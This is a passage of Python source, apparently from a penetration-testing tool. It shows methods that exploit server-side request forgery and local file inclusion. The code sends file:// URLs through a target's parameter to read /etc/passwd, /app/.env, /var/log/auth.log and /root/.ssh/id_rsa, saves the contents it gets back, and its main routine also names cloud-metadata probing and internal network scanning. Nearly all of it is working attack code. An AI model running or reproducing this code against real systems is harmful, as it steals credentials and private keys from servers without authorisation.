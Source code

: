 ```python
                                'content_snippet': response.text[:200],
                                'lfi_confirmed': True
                            })
                            print(f"    🚨 LFI SUCCESS: {file_path}")
                            
                except Exception as e:
                    continue
        
        return results
    
    def test_ssrf_via_file_protocol(self, ssrf_endpoint):
        """Test SSRF using file:// protocol"""
        print(f"\n[+] Testing SSRF with file:// protocol...")
        
        file_targets = [
            'file:///etc/passwd',
            'file:///etc/hosts',
            'file:///proc/version',
            'file:///app/.env',
            'file:///var/log/auth.log',
            'file:///root/.ssh/id_rsa'
        ]
        
        results = []
        
        for file_url in file_targets:
            try:
                payload = {ssrf_endpoint['endpoint']['param']: file_url}
                
                if 'trigger_param' in ssrf_endpoint['endpoint']:
                    payload[ssrf_endpoint['endpoint']['trigger_param']] = True
                
                response = self.session.request(
                    ssrf_endpoint['endpoint']['method'],
                    f"{self.base_url}{ssrf_endpoint['endpoint']['url']}",
                    json=payload,
                    timeout=10
                )
                
                if response.status_code == 200 and len(response.text) > 10:
                    results.append({
                        'file_url': file_url,
                        'response_size': len(response.text),
                        'content': response.text,
                        'file_read_success': True
                    })
                    print(f"    ✓ File read successful: {file_url}")
                    
            except Exception as e:
                print(f"    ✗ Error reading {file_url}: {e}")
        
        return results
    
    def comprehensive_ssrf_lfi_test(self):
        """Perform comprehensive SSRF and LFI testing"""
        print("=== Comprehensive SSRF and LFI Assessment ===")
        
        results = {
            'ssrf_discovery': [],
            'cloud_metadata': {},
            'internal_network_scan': [],
            'lfi_vulnerabilities': [],
            'file_protocol_ssrf': []
```